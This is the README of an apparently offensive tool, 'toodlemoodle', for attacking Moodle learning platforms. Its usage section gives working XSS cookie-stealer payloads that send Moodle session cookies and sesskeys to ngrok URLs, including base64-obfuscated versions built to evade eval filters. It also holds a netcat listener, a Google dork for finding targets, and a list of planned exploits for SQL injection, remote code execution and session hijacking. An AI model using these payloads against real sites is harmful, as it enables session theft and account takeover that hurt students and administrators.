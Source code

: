 # toodlemoodle

TODO: Write a description here

## Installation

TODO: Write installation instructions here

## Usage
Google dork: This files describes API changes in core libraries and APIs inurl:lib/upgrade.txt

TODO: Write usage instructions here
Thanks moodle for giving code to pwn self:
https://docs.moodle.org/dev/Security:Cross-site_scripting
while true; do nc -l 9999; done

My cookie stealer:
<script>alert('xss');document.write('<img src="https://7ea30092.ngrok.io/?cookie=' + document.cookie + '" />')</script>

<script>document.write('<img src="https://7ea30092.ngrok.io/?session=' + document.cookie.match(new RegExp('(^| )MoodleSession=([^;]+)'))[2] + "&sesskey=" + M.cfg.sesskey + "&id=" + document.querySelectorAll('[data-userid]')[0].getAttribute("data-userid") + '" />')</script>

https://blog.innerht.ml/tag/clickjacking/ good demo of a button that follows the mouse.

https://moodle.org/mod/forum/discuss.php?d=384010 3.6 login as, hijack admin account implemented in clickjack.html

https://www.cvedetails.com/cve/CVE-2018-1045/ 3.3.4 XSS in calendar event name todo

https://moodle.org/mod/forum/discuss.php?d=345915 3.2.1 xss via url implemented

POC:
http://localhost/mod/assign/view.php?id=2&action=view"onload="document.body.appendChild(document.createElement('img')).src=('https://5fc418e2.ngrok.io/?session='.concat(document.cookie,'|',M.cfg.sesskey))

Encode payload in base64 then: 

"onload="eval(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))

or if eval is filtered:

"onload="new Function(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))()


https://moodle.org/mod/forum/discuss.php?d=384011 3.6 (fresh!) enum events

https://www.cvedetails.com/cve/CVE-2017-2641/ used by exploit below

https://www.exploit-db.com/exploits/41828 3.2.1 SQL injection implemented

https://www.exploit-db.com/exploits/46551 3.4.1 RCE, CVE below TODO

https://www.cvedetails.com/cve/CVE-2018-1133/ 3.4.2 remote code exec for teacher "Calculated question"

fresher:

https://www.cvedetails.com/cve/CVE-2018-14630/ 3.5.2 remote code exec for (teacher?) "quiz import" probably wont be done

Features:
1. scan: detect version (working!), suggest supported exploits
2. view calendar events bypass
3. exploit quiz import and calculated question vulns
4. exploit 2018-1133 RCE
5. exploit 2017-2641 SQL injection (via user pref) (generate sqlmap command)
6. add xss to account dashboard, generate clickjacker, using CVE-2019-3810 or CVE-2019-3847 to hijack session
7. add xss to calendar, generate link for victim to click and steal sesh

## Development

TODO: Write development instructions here
Make sure you have crystal & openssl installed. For MacOs, run
```
brew install crystal openssl
```

It is critical to compile this project, that you add the following lines to your bash_profile or zshrc:
```
export PKG_CONFIG_PATH="/usr/local/opt/openssl/lib/pkgconfig:$PKG_CONFIG_PATH"
export LDFLAGS="-L/usr/local/opt/libffi/lib -L/usr/local/opt/openssl/lib -L/usr/local/opt/llvm@6/lib -Wl,-rpath,/usr/local/opt/llvm@6/lib -L/usr/local/opt/llvm@6/lib $LDFLAGS"
export CPPFLAGS="-I/usr/local/opt/openssl/include -I/usr/local/opt/llvm@6/include $CPPFLAGS"
```

This adds LLVM, LibFFI, and OpenSSL to your compiler flags.

Now you can run this project (this will compile the project, hence the long startup time): 
```
crystal run src/tmoodle.cr
```

You can also build an executable:
```
crystal build src/tmoodle.cr
```
Use the  --release flag for an optimized production build.

### Docker image setup



## Contributing

1. Fork it (<https://github.com/your-github-user/toodlemoodle/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [Riccaardo Felluga](https://github.com/riccardofelluga) - contributor and maintainer
- [Claudio Spiess](https://github.com/your-github-user) - creator and maintainer
